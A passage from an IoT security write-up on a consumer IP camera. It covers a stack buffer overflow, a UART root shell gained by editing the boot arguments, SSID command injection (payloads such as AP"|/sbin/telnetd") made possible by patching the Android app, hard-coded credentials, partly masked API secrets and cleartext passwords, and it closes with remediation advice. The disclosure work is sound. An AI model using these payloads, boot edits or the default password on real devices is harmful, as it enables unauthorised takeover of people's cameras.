

And after several loops, we were able to see that this base64 decoding function was overwritten without controlling the `buffer` variable (here 186 bytes, so more than the 128 allocated initial bytes).



Using the same previous breakpoint and another set of commands, we only printed the `$r2` register (containing the decoded base64 value) during the loop.

We were able to confirm that after the 128 initial allocated bytes, this function started to overwritte other present data in the stack:


```
peda-arm > b *0x000254c4
Breakpoint 1 at 0x254c4
peda-arm > commands 1
Type commands for breakpoint(s) 1, one per line.
End with a line saying just "end".
>x/s $r2
>continue
end
peda-arm > start
```



Another view, showing the next 75 bytes on from the stack pointer, where we can again show the other data being overwritten using the following command:


```
peda-arm > b *0x000254c4
Breakpoint 1 at 0x254c4
peda-arm > commands 1
Type commands for breakpoint(s) 1, one per line.
End with a line saying just "end".
>x/75x $sp
>continue
end
peda-arm > start
```


The buffer variable was finally given to the `HI_INI_HTTP_PLAIN_Auth_CALLBACK` function which then caused the bug:




###  Root shell via serial port and boot edition

After opening the camera, we found four holes (described in the first PCB analysis part). In order to confirm that it was a UART serial interface, we used the multimeter (after powering on camera) to determine which hole was the GND, VCC, TX and RX:

  * The VCC with 3.3 volts;
  * The TX with low voltage;
  * The RX with about 3 volts, varying when rebooting the camera;
  * The GND, in resistance mode, which should be 0 ohm.


  We then used the shikra USB tool to connect the camera, by following the schema made by <a href="http://www.xipiter.com/musings/using-the-shikra-to-attack-embedded-systems-getting-started">xipiter</a>:

  

  After identifying the baudrate using the `baudrate.py` python script (https://github.com/devttys0/baudrate), we used the `screen` utility (also possible using `miniterm` or `minicom`) to connect to the camera through the Shikra:

  

Below is an extract of the boot sequence after rebooting the camera:

```
3
2
1
0
[PROCESS_SEPARATORS] run sfboot
[PROCESS_SEPARATORS] setenv bootargs console=${consoledev},${baudrate} noinitrd mem=${mem} rw ${rootfstype} init=linuxrc ;sf probe 0 0;sf read ${loadaddr} ${sfkernel} ${filesize}; bootm
SF: Detected W25Q256FV with page size 256 B, sector size 64 KiB, total size 32 MiB
put param to memory
mem size (41)
bsb size (2)

the kernel image is zImage or Image
entry = 0xc1000000
## Transferring control to Linux (at address c1000000)...

Starting kernel ...

machid = 3988 r2 = 0xc0000100
Uncompressing Linux... done, booting the kernel.
[    0.000000] Booting Linux on physical CPU 0
[    0.000000] Linux version 3.4.43-gk (root@localhost.localdomain) (gcc version 4.6.1 (crosstool-NG 1.18.0) ) #14 PREEMPT Fri Dec 9 14:49:48 CST 2016
[    0.000000] CPU: ARMv6-compatible processor [410fb767] revision 7 (ARMv7), cr=00c5387d
```

Credentials are required to connect the camera (`admin:2601hx`, as found earlier). Thus, we got a root shell on the camera.

However, what if we did not have these credentials beforehand?

Note the following sequence at startup:

```
3
2
1
0
```

In fact, there is a timer that allows us to stop the boot process by pressing a keyboard key:

```
3
2
1
0
GK7102 #
GK7102 # help
[PROCESS_SEPARATORS] help
?       - alias for 'help'
base    - print or set address offset
bdinfo  - print Board Info structure
boot    - boot default, i.e., run 'bootcmd'
bootd   - boot default, i.e., run 'bootcmd'
bootelf - Boot from an ELF image in memory
bootm   - boot application image from memory
bootp   - boot image via network using BOOTP/TFTP protocol
bootvx  - Boot vxWorks from an ELF image
bootz   - boot Linux zImage image from memory
cmp     - memory compare
coninfo - print console devices and information
cp      - memory copy
crc32   - checksum calculation
dhcp    - boot image via network using DHCP/TFTP protocol
echo    - echo args to console
editenv - edit environment variable
env     - environment handling commands
erase   - erase FLASH memory
flinfo  - print FLASH memory information
go      - start application at address 'addr'
help    - print command description/usage
iminfo  - print header information for application image
imls    - list all images found in flash
imxtract- extract a part of a multi-image
itest   - return true/false on integer compare
loadb   - load binary file over serial line (kermit mode)
loads   - load S-Record file over serial line
loady   - load binary file over serial line (ymodem mode)
loop    - infinite loop on address range
md      - memory display
mm      - memory modify (auto-incrementing address)
mtest   - simple RAM read/write test
mw      - memory write (fill)
nfs     - boot image via network using NFS protocol
nm      - memory modify (constant address)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
protect - enable or disable FLASH write protection
reset   - Perform RESET of the CPU
run     - run commands in an environment variable
saveenv - save environment variables to persistent storage
setenv  - set environment variables
sf      - SPI flash sub-system
sleep   - delay execution for some time
snand   - SpiNAND sub-system
source  - run script from memory
tftpboot- boot image via network using TFTP protocol
version - print monitor, compiler and linker version
```

Then, using the `printenv` command, we found the boot arguments in an environment variable named `sfboot`:

```
GK7102 # printenv sfboot
[PROCESS_SEPARATORS] printenv sfboot
sfboot=setenv bootargs console=${consoledev},${baudrate} noinitrd mem=${mem} rw ${rootfstype} init=linuxrc ;sf probe 0 0;sf read ${loadaddr} ${sfkernel} ${filesize}; bootm
```

It was easy to edit the boot by changing the `init` value from `linuxrc` to `/bin/sh`:

```
GK7102 # setenv sfboot 'setenv bootargs console=${consoledev},${baudrate} noinitrd mem=${mem} rw ${rootfstype} init=/bin/sh ;sf probe 0 0;sf read ${loadaddr} ${sfkernel} ${filesize}; bootm'
```

In order to finally boot the camera after these changes, we used the following command:

```
GK7102 # run sfboot
```

We finally got a shell after the camera finished to boot:

```
~ #
~ # id
uid=0(root) gid=0(root) groups=0(root),10(wheel)
~ # cat /etc/shadow
root:RdQhwfYI/a1kQ:0:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
default::10933:0:99999:7:::
admin:RdQhwfYI/a1kQ:0:0:99999:7:::
```


### Remote code execution via command injection in access point SSID

After analyzing quickly the source code of some available scripts in the camera, we found one used to configure the wireless network.

Here an interesting excerpt:

  ```
loadwificonf()                       
{                         
. $TMP_PATH/twifi.conf
      iwpriv $NETDEV set AuthMode=$WifiMode
      iwpriv $NETDEV set NetworkType=Infra             
      iwpriv $NETDEV set EncrypType=$WifiEnc
      if [ $WifiEnc != "NONE" ]
      then                 
              if [ $WifiEnc == "WEP" ]
              then                                    
                      iwpriv $NETDEV set DefaultKeyID=1
                      iwpriv $NETDEV set Key1="$WifiKey"
              else         
                      iwpriv $NETDEV set WPAPSK="$WifiKey"
              fi
      fi
      iwpriv $NETDEV set SSID="$WifiSsid"
}   
  ```

The last line is vulnerable to a code injection in the SSID variable.

To exploit this, we configured the SSID with something like:

  * `AP"|/usr/sbin/touch /tmp/xyz"`
  * `AP"|/sbin/telnetd"`

After that, we tried to configure the camera using this Wi-Fi access point but the application forbade the use of special characters in the SSID.



In order to bypass this restriction, we decided to patch the mobile application:

* Using `apktool` (https://ibotpeaches.github.io/Apktool/), we unpacked the `.apk` mobile application;
* Using `dex2jar` (https://github.com/pxb1988/dex2jar), we converted the `.dex` files into standard `.class` files.

We then used `jd-guitool` (https://github.com/java-decompiler/jd-gui), we inspected the source code to find the restriction check function:


```
.method public isSupportedSsid()Z
    .locals 3
    .prologue
    const/4 v1, 0x0

    .line 249
    invoke-virtual {p0}, Lcom/tws/common/bean/ConnectionState;->getSsid()Ljava/lang/String;
    move-result-object v2

    if-nez v2, :cond_1
    .line 253
    :cond_0
    :goto_0
    return v1

    .line 252
    :cond_1
    invoke-virtual {p0}, Lcom/tws/common/bean/ConnectionState;->getSsid()Ljava/lang/String;
    move-result-object v2
    invoke-virtual {p0, v2}, Lcom/tws/common/bean/ConnectionState;->getNotSupportedChar(Ljava/lang/String;)Ljava/lang/String;
    move-result-object v0

    .line 253
    .local v0, "unSupportedChars":Ljava/lang/String;
    invoke-virtual {v0}, Ljava/lang/String;->trim()Ljava/lang/String;
    move-result-object v2
    invoke-virtual {v2}, Ljava/lang/String;->length()I
    move-result v2

    if-nez v2, :cond_0
    const/4 v1, 0x1
    goto :goto_0
.end method
```

In case the application receives a SSID with special characters, it returns a `false` boolean. So, we simply patched it to return every time a `true` boolean.

The changes were made to this initial part:

```
    .line 253
    :cond_0
    :goto_0
    return v1
```

And the patched part was:

```
    .line 253
    :cond_0
    :goto_0
    const/4 v1, 0x1
    return v1

```

We repacked the application with `apktool`, signed it using `jarsigner` by Oracle and launched the configuration process again from the mobile application.

This time, our injection got accepted and the camera executed the payload. We were able to enable the `telnetd` service or create a simple file to confirm the vulnerability.


### Hard-coded credentials

As seen previously, there was two hard-coded system credentials which were equals (reused password vulnerability). In fact the `2601hx` password valids for the `admin` and `root` accounts was recovered thanks to bruteforce attacks on telnetd service. Here the "/etc/shadow" file contents where we can identify the same DES (unix) hashed password:

```
$ cat /etc/shadow
root:RdQhwfYI/a1kQ:0:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
default::10933:0:99999:7:::
admin:RdQhwfYI/a1kQ:0:0:99999:7:::
```

We can also confirm the DES (unix) algorithm used to generate the `2601hx` hash using the following command where `RdQhwfYI` is the password salt:

```
[mickael@m ]$ makepasswd -e des -s RdQhwfYI -p 2601hx
2601hx   RdQhwfYI/a1kQ

```


### API Key in clear text (Facebook, Dropbox, etc.)

After reading the installation manual, we identified multiple sensitive API keys in the source code of the Axxxxxx application.

First of all, we downloaded the application from Google Play.

Then, using a rooted android phone, we copied the apk into our test machine:

```
$ adb pull /data/app/com.tws.a*******/base.apk
```

Since APKs are nothing more but ZIP files, we uncompressed it.

Into the asset folder, we found a file called `ShareSDK.xml`. A simple `grep` returns the secret keys along with the application names.

```
$ egrep -i 'key|secret' -B 4 ShareSDK.xml | egrep -vi 'sortid|id'
<LinkedIn
        ApiKey="ejo5ib******"
        SecretKey="cC7B2jpx********"
--
     <FourSquare
        ClientSecret="3XHQNSMMHIFBYOLWEPONNV4DOTCDBQH0****************"
--

     <Flickr
        ApiKey="33d833ee6b6fca49****************"
        ApiSecret="3a2c5b42********"
--

    <Tumblr
        OAuthConsumerKey="2QUXqO9fcgGdtGG1FcvML6ZunIQzAEL8xY****************"
		SecretKey="3Rt0sPFj7u2g39mEVB3IBpOzKnM3JnTtxX****************"
--

	<Dropbox
        AppKey="i5vw2me********"
		AppSecret="3i9xifs********"
--
    <Instagram
		ClientSecret="1b2e82f110264869****************"

```


### Absence of transport layer security

After intercepting the network traffic during a connection between a phone and the camera, we discovered a lack of data encryption.

In fact, the communications (including passwords) are sent in clear-text over the UDP protocol. During the initial setup, the Android application asked us to set up a new password, which is encoded in base64 before being sent:


When the mobile application was asking us a new password, it was possible to close immediately the application, so the password was unchanged ( `admin`). In order to test the camera a legit user, we then reconfigured it with the `admin123` password (remember this password for the reading).



```
[mickael@m ~]$ echo -n "YWRtaW4xMjMh" | base64 -d
admin123![mickael@m ~]$
```


## Conclusion

That is all for this walkthrough of IoT hacking.

The vulnerabilities, and their remediations, have been known for ages.

Buffer overflows can be fixed with secure coding practicing, by checking boundaries on input buffers, or using a safe language. Data under user control should alway be sanitized.

Applications should store secrets securely, avoid hardcoded credentials and use TLS to secure communications.

Also, operating systems might also need hardening: in particular, network service should not run with root permissions.

This is well known issue that most IoT has been pushed to the market quickly, with much disregard of security best practices.

On top of that, the problem of the supply chain arises, with the security of third-parties. How can a vendor control the security and manage incident reports when its own product is composed of hardware components, firmwares and hardware libraries from a dozen of editors and makers? In this very fragmented environment, it is simply impossible.

Unfortunately, there is no perspective for a change anytime soon in the IoT world: basic security issues will continue to occur and, worse, remain unfixed.

## Credits

* Mickael KARATEKIN <mickael.karatekin -at- tnpconsultants.com>

## Thanks

* Nicolas Chatelain
